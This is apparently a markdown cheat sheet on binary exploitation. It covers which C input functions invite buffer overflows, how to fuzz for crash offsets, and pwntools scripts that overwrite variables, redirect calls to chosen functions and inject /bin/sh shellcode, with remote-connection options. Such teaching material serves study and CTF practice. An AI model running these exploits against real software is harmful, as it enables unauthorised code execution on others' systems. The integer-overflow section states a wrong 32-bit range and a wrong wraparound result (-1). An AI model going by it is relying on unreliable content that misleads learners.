 ```yaml
---
title: Binary Exploitation with Buffer Overflow
description: Buffer overflow occurs when a program attempts to write more data to a buffer, or temporary data storage area, than it can hold. This can result in overwriting adjacent memory locations, potentially causing the program to crash or even allowing an attacker to execute arbitrary code on the target system. In the context of binary exploitation, this attack can be used to gain control of the program flow and redirect it to run attacker-controlled code, known as shellcode.
tags:
    - Reverse Engineering
refs:
date: 2023-08-14
draft: false
---
```


## Investigation

### Functions Lead to Buffer Overflow

If the binary uses the following functions, Buffer Overflow may occurs.

```bash
gets()
fgets()
scanf()
sprintf()
strcpy()
strcat()
```

<br />

## Basic Buffer Overflow

Try to find what values lead to segmentation fault.

```bash
python3 -c 'print("A"*30)' | ./example
python3 -c 'print("A"*40)' | ./example
python3 -c 'print("A"*50)' | ./example
...
```

### Exploitation

Abuse input/output by typing a lot of characters more than the program expects..

```sh
./example

Type something:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

### Exploitation using Pwntools

```python
#!/usr/bin/python3
from pwn import *

ip   = '10.0.0.1'
port = 1337

r = remote(ip, port)
# r = process("./example")

# Payload
offset = 30
payload = b'A' * offset

# Send payload
r.sendline(payload)

# Print the output
print(r.recvall().decode())

# Post process
r.interactive()
```

<br />

## Overriding Variables

The program executes input/output by gets() or scanf(), and limit the buffer size of the variable, we can modify the variable then lead to unexpected behavior.  
For instance, assume the program is as follow.

```sh
rizin -d ./example
[0x0000]> aaa

# Disassemble the function
[0x0000]> pdf @ main
# An example result
sub   rsp, 0x70
call  sym.imp.__isoc99_scanf       ; int scanf(const char *format)
cmp   dword [rbp-0x4], 0xdeadbeef
jne   0x5569e8600992
lea   rdi, str.bin_sh              ; "/bin/sh"
ret
```

First find the distance from the stack pointer to rbp-0x4 (0x04).

```python
python3
>>> int(0x70-0x4)
108
```

### Exploitation using Pwntools

```python
from pwn import *

context.update(arch="amd64", os="linux")

payload = b"A" * 108
payload += p32(0xdeadbeef)

p = process('./example') # p = remote('example.com', '1337') for remote connection
p.sendline(payload)
p.interactive()
```

<br />

## Overriding the Next Call

If the program uses **get()** or **scanf()**, we can specify the address of the desired calls by overwriting the address.  
Assume the program has the above two functions.

```sh
0x0040158c  main
0x00401194  vuln_fn
```

For instance, if we want to call the **“vuln_fn”** function,  override the address of the next call using buffer overflow.

### Exploitation 1

```python
from pwn import *

context.update(arch="amd64", os="linux")

elf = context.binary = ELF("./example")

payload = b"A" * 32
# Give the address of the desired function.
payload += p64(elf.sym["vuln_fn"])
# or if PIE is disabled, we can set the address directly.
# payload += p64(0x00401194)

p = process('./example') # p = remote('example.com', '1337') for remote connection.

p.sendline(payload)
p.interactive()
```

### Exploitation 2

```bash
from pwn import *

exe = ELF("./example")

r = process(exe.path)
# r = remote("10.0.0.1", "1337")

base_addr = 0x123456
payload = b'A'*0x30 + p64(exe.bss()) + p64(base_addr)
r.sendline(payload)

r.interactive()
```

<br />

## Shellcode

We can create the crafted shell code and override the address to execute the shell code.  
Use **Pwntools** to create the shell code.

```python
from pwn import *

context.update(arch="amd64", os="linux")

payload = b"A" * 50 + b"B" * 8
payload += asm(shellcraft.sh())

p = process('./example') # p = remote('example.com', '1337') for remote connection
p.sendline(payload)
p.interactive()
```

<br />

## Integer Overflow

If the program processes integer values with input/output, we can abuse it by overflow of integer.  
The range of 32-bit integer is **-2147483647 to 2147483647**, so if we type the max value +1 in input for instance, the result is -1. This is because

```bash
./example

Type number:
>> 2147483648
The number you entered is -1.
```
